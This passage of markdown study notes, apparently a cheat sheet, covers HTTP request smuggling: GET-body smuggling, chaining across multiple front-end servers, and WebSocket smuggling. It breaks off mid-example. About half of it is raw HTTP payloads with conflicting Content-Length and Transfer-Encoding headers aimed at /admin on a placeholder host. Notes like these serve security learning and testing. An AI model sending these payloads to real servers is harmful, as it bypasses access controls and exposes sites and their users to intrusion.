         GET /admin HTTP/1.1
        Host: vulnerable-website.com

        X
        ```
    
    - **Exploiting via GET requests**
      - Some servers allow message bodies in GET requests
      - Example:
        ```http
        GET / HTTP/1.1
        Host: vulnerable-website.com
        Content-Length: 53

        GET /admin HTTP/1.1
        Host: vulnerable-website.com

        X
        ```
  
  - **Multiple front-end servers (Request tunneling)**
    
    - **Chaining request smuggling vulnerabilities**
      - Chain vulnerable front-end servers to smuggle requests to back-ends
      - Works even if the connection to the back-end is reset between requests
      - Example first request (to Front-end 1):
        ```http
        POST https://vulnerable-website.com/ HTTP/1.1
        Host: vulnerable-website.com
        Content-Length: 130
        Transfer-Encoding: chunked

        0

        POST / HTTP/1.1
        Host: vulnerable-website.com
        Content-Length: 40
        Transfer-Encoding: chunked

        0

        GET /admin HTTP/1.1
        Host: vulnerable-website.com
        ```
    
    - **Smuggling between WebSockets**
      - Exploit request smuggling to hijack WebSocket connections
      - Smuggle a fake WebSocket handshake request
      - Example:
        ```http
        POST / HTTP/1.1
        Host: vulnerable-website.com
        Content-Length: 200
        Transfer-Encoding: chunked

        0
